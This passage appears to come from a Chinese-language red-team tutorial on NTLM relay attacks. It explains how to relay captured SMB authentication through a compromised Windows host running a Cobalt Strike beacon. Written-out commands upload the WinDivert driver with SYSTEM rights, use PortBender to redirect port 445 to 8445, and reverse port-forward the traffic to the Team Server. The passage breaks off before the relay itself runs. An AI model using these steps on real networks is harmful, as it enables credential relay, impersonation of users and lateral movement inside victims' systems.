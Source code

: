 4. web服务访问记录
```
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/) ...
127.0.0.1 - - [23/Jul/2021 19:24:30] "GET /test.txt HTTP/1.1" 200 -
```

# NTLM Relaying

> 什么是NTLM 中继攻击？
在NTLM中继攻击中，攻击者能够拦截或捕获这种认证流量，并有效地允许他们冒充客户对同一或另一服务进行攻击。 例如，一个客户试图连接到服务A，但攻击者拦截了认证流量并使用它连接到服务B，就像他们是客户一样。


kali通常使用[Responder](https://github.com/lgandx/Responder)和[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx)做中继攻击。

但是在windows中不能使用以上的方法，因为通常windows不会自带python，以及445端口是系统端口，不能被用户绑定监听。

使用Cobalt Strike完成windows上的中继攻击，需要满足以下条件：

1. 使用[WinDivert](https://reqrypt.org/windivert.html)把445端口的流量转发到本地的高端口，比如8445
2. smb流量被转发到高端口（8445）以后，再利用反向端口转发，使用C2把流量转到 Team Server
3. Team Server（也就是kali）上的工具```ntlmrelayx```将侦听smb流量
4. 需要 SOCKS 代理以允许 ntlmrelayx 将流量发送回目标网络

流程图：

![alt NTLM Relaying](https://rto-assets.s3.eu-west-2.amazonaws.com/relaying/overview.png)


把工具WinDivert64.sys上传到中转机器的```C:\Windows\System32\drivers```目录
```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> pwd
[*] Current directory is C:\Windows\system32\drivers

beacon> upload C:\Tools\PortBender\WinDivert64.sys
```



[PortBender](https://github.com/praetorian-inc/PortBender)把445流量转到8445
```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
```

使用rportfwd把8445端口转发到 Team Server的445端口
```
beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445
```
